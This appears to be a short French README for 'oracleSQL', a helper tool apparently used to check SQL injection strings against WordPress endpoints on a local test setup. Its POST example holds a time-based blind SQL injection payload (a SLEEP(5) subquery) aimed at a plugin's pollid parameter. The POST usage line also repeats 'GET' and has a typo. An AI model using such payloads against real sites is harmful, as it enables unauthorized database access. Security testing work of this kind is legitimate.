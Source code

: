 # oracleSQL
pour PFGimenez/poirot
## Utilisation
retourne 0 si la chaine de caractère est syntaxiquement valide, 1 sinon
#### GET
```
python sqloracl.py [url](string) GET [payload](dict entre DOUBLES quotes /!\ clés et valeurs entre SIMPLES quotes) [param](string) [injtext](string /!\ entre DOUBLES quotes)
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/wp-admin/admin.php GET "{'action':'dt_duplicate_post_as_draft','post':''}" post ""
```
#### POST
```
python sqloracl.py [url](string) GET [payload](ict entre DOUBLES quotes /!\ clés et valeurs entre SIMPLES quotes) [param](string) [injtext](string /!\ entre DOUBLES quotes)
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/admin-ajax.php POST "{'action':'spAjaxResults','pollid':'2'}" pollid " AND (SELECT 1158 FROM (SELECT(SLEEP(5)))eipW)"
```
